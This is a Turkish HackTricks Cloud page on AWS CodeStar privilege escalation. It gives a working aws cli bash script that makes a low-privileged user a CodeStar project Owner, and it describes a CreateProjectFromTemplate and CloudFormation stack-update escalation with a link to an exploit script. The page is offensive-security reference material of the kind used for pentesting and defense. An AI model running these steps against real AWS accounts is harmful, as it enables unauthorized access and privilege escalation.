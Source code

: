 # AWS - Codestar Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Codestar

Codestar hakkında daha fazla bilgi bulabilirsiniz:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Bu izinlerle **bir codestar IAM Rolünü** kötüye kullanarak **rastgele eylemler** gerçekleştirebilirsiniz **cloudformation şablonu** aracılığıyla. Aşağıdaki sayfayı kontrol edin:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Bu teknik, `codestar:CreateProject` kullanarak bir codestar projesi oluşturur ve `codestar:AssociateTeamMember` ile bir IAM kullanıcısını yeni bir CodeStar **projesinin** **sahibi** yapar, bu da onlara **birkaç ekstra izinle yeni bir politika** verecektir.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Eğer zaten bir **proje üyesiyseniz**, rolünüzü `codestar:AssociateTeamMember` yerine **`codestar:UpdateTeamMember`** iznini kullanarak **sahip** olarak güncelleyebilirsiniz.

**Olası Etki:** Codestar politikasına privesc. O politikanın bir örneğini burada bulabilirsiniz:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Yeni Bir Proje Oluşturun:**
* Yeni bir projenin oluşturulmasını başlatmak için **`codestar:CreateProjectFromTemplate`** eylemini kullanın.
* Başarılı bir şekilde oluşturulduğunda, **`cloudformation:UpdateStack`** izni otomatik olarak verilir.
* Bu erişim, `CodeStarWorker-<generic project name>-CloudFormation` IAM rolü ile ilişkili bir yığına yöneliktir.
2. **Hedef Yığını Güncelleyin:**
* Verilen CloudFormation izinleri ile belirtilen yığını güncellemeye devam edin.
* Yığının adı genellikle iki desenle uyumlu olacaktır:
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* Kesin ad, seçilen şablona bağlıdır (örnek istismar betiğine bakınız).
3. **Erişim ve İzinler:**
* Güncelleme sonrası, yığınla bağlantılı **CloudFormation IAM rolü** ile atanan yetenekleri elde edersiniz.
* Not: Bu, doğası gereği tam yönetici ayrıcalıkları sağlamaz. Ayrıcalıkları daha da yükseltmek için ortamda ek yanlış yapılandırılmış kaynaklar gerekebilir.

Daha fazla bilgi için orijinal araştırmaya bakın: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
İstismarı [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py) adresinde bulabilirsiniz.

**Olası Etki:** Cloudformation IAM rolüne privesc.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
